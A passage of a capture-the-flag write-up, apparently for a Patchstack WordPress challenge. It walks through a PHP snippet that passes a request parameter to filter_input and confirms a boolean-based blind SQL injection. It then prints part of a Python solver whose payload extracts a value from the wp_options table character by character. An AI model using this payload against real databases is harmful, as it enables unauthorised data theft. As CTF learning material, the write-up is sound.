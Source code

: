 I focus on the first IF Condition where the request contains the "func" parameter to perform SQL Injection. More or less the explanation of the code goes like this.

```php
if (isset($_GET['func'])) {

    $func = $_GET['func'];              // parameter 'func' contains 'filter_input'
    $input = $_GET['input'];            // paramter 'input' contains number '1'
    $fnl = $_GET['fnl'];                    // parameter ‘fnl’ is not used

    // If 'filter_input' === 'filter_input' and function 'filter_input' it exists {}
    if ($func === $bptm && function_exists($func)) {

       $locate = $func($input, 'locate');       // filter_input(INPUT_GET, ‘locate’)
       $fallback = $func($input, 'fallback');  // filter_input(INPUT_GET, ‘fallback’)
```

Okay, try to detect whether SQL Injection is valid or not by entering a Boolean based payload.
![Validate SQLi](/assets/img/Patchstack-S02E03-WCEU-2025/WhatIsMagic-validatesqli.png)

It can be seen from the evidence above that the results are valid, meaning that I can dump the flag using boolean based with the data:
• Database: wordpress
• Table: wp_options
• Column: option_value
• Where: option_name=’lmi’

**Exploit:**\
File solver.py:

```python
import requests
import time
from string import ascii_lowercase, ascii_uppercase, digits
from urllib.parse import *

URL = 'http://18.140.17.89:9170/wim.php'

class Exploit:
	def __init__(self, url=URL):
		self.url = url

	def boolean(self):
		flag = ""
		position = 1
		while "}" not in flag:
			for char in range(32, 127):

				# Dump Flag
				payload = f"1') OR ORD(SUBSTRING((SELECT option_value FROM wordpress.wp_options WHERE option_name='lmi'),{position},1)) = {char}-- -"
				params = {'func': 'filter_input', 'input': 1, 'locate': payload, 'fallback': ''}
```

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn